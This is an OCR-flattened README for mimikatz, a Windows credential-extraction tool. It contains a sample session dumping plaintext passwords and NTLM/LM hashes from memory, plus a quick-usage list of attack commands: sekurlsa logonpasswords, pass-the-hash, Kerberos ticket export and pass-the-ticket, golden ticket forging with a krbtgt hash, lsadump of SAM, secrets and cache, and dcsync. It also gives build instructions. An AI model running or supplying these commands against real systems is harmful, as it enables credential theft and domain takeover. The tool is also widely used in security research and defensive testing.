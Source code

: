 mimikatz mimikatz is a tool ive made to learn c and make somes experiments with windows security its now well known to extract plaintexts passwords hash pin code and kerberos tickets from memory mimikatz can also perform pass the hash pass the ticket or build golden tickets mimikatz 2 0 alpha x86 release kiwi en c apr 6 2014 22 02 03 \ \ benjamin delpygentilkiwi benjamin gentilkiwi com v http blog gentilkiwi com mimikatz oe eo with 13 modules mimikatz privilege debug privilege 20 ok mimikatz sekurlsa logonpasswords authentication id 0 515764 00000000 0007deb4 session interactive from 2 user name gentil kiwi domain vm w7 ult x sid s 1 5 21 1982681256 1210654043 1600862990 1000 msv 00000003 primary username gentil kiwi domain vm w7 ult x lm d0e9aee149655a6075e4540af1f22d3b ntlm cc36cf7a8514893efccd332446158b1a sha1 a299912f3dc7cf0023aef8e4361abfc03e9a8c30 tspkg username gentil kiwi domain vm w7 ult x password waza1234 but thats not all crypto terminal server events lots of informations in the github wiki https github com gentilkiwi mimikatz wiki or on http blog gentilkiwi com in french yes if you dont want to build it binaries are availables on https github com gentilkiwi mimikatz releases quick usage log privilege debug sekurlsa sekurlsa logonpasswords sekurlsa tickets export sekurlsa pth user administrateur domain winxp ntlm f193d757b4d487ab7e5a3743f038f713 run cmd kerberos kerberos list export kerberos ptt c \chocolate kirbi kerberos golden admin administrateur domain chocolate local sid s 1 5 21 130452501 2365100805 3685010670 krbtgt 310b643c5316c8c3c70a10cfb17e2e31 ticket chocolate kirbi crypto crypto capi crypto cng crypto certificates export crypto certificates export systemstore cert system store local machine crypto keys export crypto keys machine export vault lsadump vault cred vault list token elevate vault cred vault list lsadump sam lsadump secrets lsadump cache token revert lsadump dcsync user domain\krbtgt domain lab local build mimikatz is in the form of a visual studio solution and a winddk driver optional for main operations so prerequisites are for mimikatz and mimilib visual studio 2010 2012 or 2013 for desktop 2013 express for desktop is free and supports x86 x64 http www microsoft com download details aspx id 44914 for mimikatz driver mimilove and ddk2003 platform windows driver kit 7 1 winddk http www microsoft com download details aspx id 11800 mimikatz uses svn for source control but is now available with git too you can use any tools you want to sync even incorporated git in visual studio 2013 synchronize git url is https github com gentilkiwi mimikatz git svn url is https github com gentilkiwi mimikatz trunk zip file is https github com gentilkiwi mimikatz archive master zip build the solution after opening the solution build build solution you can change architecture mimikatz is now built and ready to be used win32 x64 you can have error msb3073 about build cmd and mimidrv its because the driver cannot be build without windows driver kit 7 1 winddk but mimikatz and mimilib are ok ddk2003 with this optional msbuild platform you can use the winddk build tools and the default msvcrt runtime smaller binaries no dependencies for this optional platform windows driver kit 7 1 winddk http www microsoft com download details aspx id 11800 and visual studio 2010 are mandatory even if you plan to use visual studio 2012 or 2013 after follow instructions http blog gentilkiwi com programmation executables runtime defaut systeme http blog gentilkiwi com cryptographie api systemfunction windows winheader licence cc by 4 0 licence https creativecommons org licenses by 4 0 mimikatz needs coffee to be developed eth 0x3a56af999b5e68f9e6e0a7dce1833efefad5b470 btc 1c6bubazp9xq3bfyihvsqp1sehfyykudo5 paypal https www paypal me delpy author benjamin delpy gentilkiwi you can contact me on twitter gentilkiwi or by mail benjamin at gentilkiwi com dcsync function in lsadump module was co writed with vincent le toux you can contact him by mail vincent letoux at gmail com or visit his website http www mysmartlogon com this is a personal development please respect its philosophy and dont use it for bad things